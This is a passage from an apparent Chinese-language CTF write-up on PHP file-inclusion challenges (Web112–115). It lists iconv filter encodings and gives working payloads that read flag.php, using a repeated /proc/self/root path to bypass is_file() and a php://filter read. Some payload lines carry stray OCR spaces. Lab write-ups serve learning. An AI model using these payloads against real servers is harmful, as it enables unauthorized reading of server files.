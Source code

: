convert.iconv.\*.\*不同编码使用

```php
convert.iconv.UTF-8.UTF-16BE：将 UTF-8 编码转换为 UTF-16BE。
convert.iconv.UTF-8.UTF-16LE：将 UTF-8 编码转换为 UTF-16LE。
convert.iconv.UTF-8.UTF-32BE：将 UTF-8 编码转换为 UTF-32BE。
convert.iconv.UTF-8.UTF-32LE：将 UTF-8 编码转换为 UTF-32LE。
convert.iconv.UTF-16BE.UTF-8：将 UTF-16BE 编码转换为 UTF-8。
convert.iconv.UTF-16LE.UTF-8：将 UTF-16LE 编码转换为 UTF-8。
convert.iconv.UTF-32BE.UTF-8：将 UTF-32BE 编码转换为 UTF-8。
convert.iconv.UTF-32LE.UTF-8：将 UTF-32LE 编码转换为 UTF-8。
convert.iconv.ISO-8859-1.UTF-8：将 ISO-8859-1 编码转换为 UTF-8。
convert.iconv.ISO-8859-15.UTF-8：将 ISO-8859-15 编码转换为 UTF-8。
convert.iconv.WINDOWS-1252.UTF-8：将 WINDOWS-1252 编码转换为 UTF-8。
convert.iconv.GBK.UTF-8：将 GBK 编码转换为 UTF-8。
convert.iconv.GB18030.UTF-8：将 GB18030 编码转换为 UTF-8。
convert.iconv.BIG5.UTF-8：将 BIG5 编码转换为 UTF-8。
convert.iconv.SHIFT_JIS.UTF-8：将 SHIFT_JIS 编码转换为 UTF-8。
convert.iconv.EUC-JP.UTF-8：将 EUC-JP 编码转换为 UTF-8。
```

### is_file()长度限制绕过：

原理：/proc/self/root代表根目录，进行目录溢出，超过is_file能处理的最大长度就不认为是个文件了。

payload：

```
file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/ self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se lf/root/proc/self/root/var/www/html/flag.php
```

## Web113

过滤了filter，使用上述目录溢出构造超长突破限制的方法

payload

```
file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/ self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se lf/root/proc/self/root/var/www/html/flag.php
```

## Web114

未过滤filter

php://filter/resource=flag.php

## Web115：\x036数字检测绕过
